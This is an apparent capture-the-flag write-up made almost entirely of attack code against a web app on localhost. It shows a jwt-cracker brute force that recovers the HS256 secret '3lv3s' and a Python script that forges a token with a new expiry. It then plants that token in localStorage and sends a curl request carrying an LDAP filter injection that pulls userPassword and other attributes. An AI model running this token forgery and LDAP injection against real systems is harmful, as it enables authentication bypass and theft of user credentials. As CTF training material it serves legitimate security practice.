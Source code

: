 installing jwt-tool
installing jwt-cracker

```bash
jwt-cracker eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I "abcdefghijklmnopqrstuwxyz" 6

other characters

"abcdefghijklmnopqrstuvwxyz0123456789" 6

using jwt_tool with rockyou.txt
```

```bash
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I
Secret is "3lv3s"
```

```python
import jwt
import datetime
import time

JWT = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I"
SECRET_KEY = "3lv3s"

decoded_payload = jwt.decode(jwt=JWT, key=SECRET_KEY)
print(decoded_payload)

decoded_payload["expires"] = str(datetime.datetime.utcnow() + datetime.timedelta(seconds=6000))
print(decoded_payload)

token = jwt.encode(payload=decoded_payload, key=SECRET_KEY)
print("Generated Token: {}".format(token.decode()))
```

```javascript
localStorage.setItem('np-auth','eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTEyLTMxIDIyOjQ2OjI1LjM0MDc2OCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.tA3S1ZW6s4Bx9cMvndny454pLYD3C22-JMDkVCERX8E')
```

```bash
curl 	'http://127.0.0.1:28080/search' 
	-H 'Cookie: SESSION=gt60T0q3W0P52h88k001' 
	-H 'Origin: http://127.0.0.1:28080' 
	-H 'Accept-Encoding: gzip, deflate, br' 
	-H 'Accept-Language: en-US,en;q=0.8' 
	-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.104 Safari/537.36' 
	-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
	-H 'Accept: */*' -H 'Referer: http://127.0.0.1:28080/home.html' 
	-H 'X-Requested-With: XMLHttpRequest' 
	-H 'Connection: keep-alive' 
	-H 'np-auth: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTEyLTMxIDIyOjQ2OjI1LjM0MDc2OCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.tA3S1ZW6s4Bx9cMvndny454pLYD3C22-JMDkVCERX8E' 
	--data 'name=))(department%3Dit)(%7C(cn%3D&isElf=False&attributes=profilePath%2Cgn%2Csn%2Cmail%2CuserPassword' --compressed
```



